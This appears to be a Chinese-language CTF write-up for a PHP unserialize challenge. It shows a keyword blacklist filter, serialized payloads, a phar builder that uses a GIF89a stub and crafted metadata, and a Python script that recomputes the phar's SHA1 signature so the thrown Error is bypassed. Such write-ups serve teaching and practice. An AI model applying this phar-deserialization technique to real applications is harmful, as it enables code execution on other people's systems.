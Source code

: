 ```php
if (preg_match('/get|flag|post|php|filter|base64|rot13|read|data/i', $_GET[0])) {
    die("我知道你想干吗，我的建议是不要那样做。");
}

unserialize($_GET[0]);  // 传入A的序列化
throw new Error("那么就从这里开始起航吧"); // 需绕 数组+i:0
```

对于A，写入

```php
<?php
class A {
    public $config='w';
}
$a = new A();
echo serialize($a);
// O:1:"A":{s:6:"config";s:1:"w";}
```

读

```php
<?php
class A {
    public $config='r';
}
$a = new A();
echo serialize($a);
// O:1:"A":1:{s:6:"config";s:1:"r";}
```

对于phar

```php
<?php
class getflag {
}
$a[] = new getflag();
$a[] = 1;

$phar = new Phar('phar.phar');
$phar -> startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   // 设置stub，增加gif文件头
$phar -> addFromString('test.txt','test');  // 添加要压缩的文件
$phar -> setMetadata($a);  // 将自定义meta-data存入manifest
$phar -> stopBuffering();
```

将.metadata.bin中前面的一个i:1改为i:0后改签名

```python
from hashlib import sha1

file = open("phar.phar","rb").read()
text = file[:-28]  # 读取开始到末尾除签名外内容
last = file[-8:]   # 读取最后8位的GBMB和签名flag
new_file = text+sha1(text).digest() + last  # 生成新的文件内容 此时sha1正确

open("change.phar","wb").write(new_file)
```
